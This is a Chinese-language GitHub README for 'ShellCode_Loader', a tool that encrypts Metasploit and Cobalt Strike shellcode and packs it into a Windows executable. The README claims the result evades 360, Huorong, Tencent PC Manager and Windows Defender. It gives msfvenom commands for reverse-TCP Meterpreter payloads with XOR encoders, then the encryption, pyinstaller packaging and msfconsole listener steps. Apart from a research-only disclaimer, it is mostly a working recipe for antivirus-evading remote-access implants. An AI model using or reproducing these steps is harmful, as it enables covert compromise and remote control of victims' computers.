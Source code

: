 # ShellCode_Loader

ShellCode_Loader - Msf&amp;CobaltStrike免杀ShellCode加载器、Shellcode_encryption - 免杀Shellcode加密生成工具，目前测试免杀360&amp;火绒&amp;电脑管家&amp;Windows Defender（其他杀软未测试）。

## 云沙箱 Shellcode_encryption.exe
```
SHA256:0606827425aefcc44402ce83987efbd90afefb61da29fce19591fe7e27d8f4a5
MD5:8ad44325c56a450d1a2500daaad6fa03
SHA1:169b434cb4750e3e75079b731dc3c97caee32867
```
https://s.threatbook.com/report/file/0606827425aefcc44402ce83987efbd90afefb61da29fce19591fe7e27d8f4a5

# 声明

该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！
代码未经过大量测试，如发现问题请提交 issue。

# 测试环境

截至2022年9月3日测试时Windows 10 可免国内杀软：火绒&360&电脑管家及Windows Defender（其他杀软自测）

Windows 7 64位 或以上操作系统应该都没问题（没有测试）

# 生成Msf_Payload

### 默认

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload.c

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f py -o  payload_py.c
```

### XOR 编码器

```
msfvenom -e x64/xor -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor.c
```

### 动态密钥XOR编码器

```
msfvenom -e x64/xor_dynamic -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor_dynamic.c
```

### Zutto Dekiru

```
msfvenom -e x64/zutto_dekiru -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_zutto_dekiru.c
```

# 生成CobaltStrike_Payload

![图片](https://user-images.githubusercontent.com/34683107/188174674-0761d510-264f-47b0-85ea-be5566c0d3f1.png)

选择使用x64的C语言或Python语言的Shellcode。

![图片](https://user-images.githubusercontent.com/34683107/188174724-ddbe398b-d378-4336-a79a-6a7e406659a4.png)

得到一个payload.c的文件

内容为：

![图片](https://user-images.githubusercontent.com/34683107/188178026-bd171622-6f6e-4568-af43-e2d49755220c.png)

# 加密Payload

```
Shellcode_encryption.exe    payload.c
```

![图片](https://user-images.githubusercontent.com/34683107/188175988-d1de1fba-d7ea-4349-acf4-1c7de44d6ad7.png)

# 配置ShellCode加载器

将生成的密文ShellCode 填至 ShellCode_Loader.py 里的 Data = '密文Shellcode' 处
示例：
![图片](https://user-images.githubusercontent.com/34683107/188174998-22cdbaa6-80b2-457b-bfd1-0419ca0816c4.png)
最终格式：
![图片](https://user-images.githubusercontent.com/34683107/188175071-d1396239-5f8f-4fdb-b750-80e2ac6fabd1.png)

# 打包可执行程序(EXE编译环境)

Python 3.8.6

pyinstaller 4.7

```
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
pyinstaller -F -w ShellCode_Loader.py
```

生成ShellCode_Loader.exe在dist目录中

# 上线测试

## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```

![图片](https://user-images.githubusercontent.com/34683107/188175266-31ca4e0b-bb8a-4863-a958-065330c500af.png)
![图片](https://user-images.githubusercontent.com/34683107/188175368-ab9d2f0f-2f92-42ca-b8d6-6980d84d3e51.png)
帮忙点个Star 谢谢

# 参考链接

https://mp.weixin.qq.com/s/M3tbE08ybD_lIrJS8FtPTw

https://mp.weixin.qq.com/s/jMHn4trtMjgdSIsRmoVOtw

https://mp.weixin.qq.com/s/2105i9rX4yv6K0emRFr8_g

https://mp.weixin.qq.com/s/VS_c3QClxmCB6raXEfljpg

https://mp.weixin.qq.com/s/4pwbdK6zz4XH7YJxCoA1Lw

# 感谢阅读

![图片](https://user-images.githubusercontent.com/34683107/188175429-58a71c93-a603-408f-ac9b-c0b616b6467c.png)

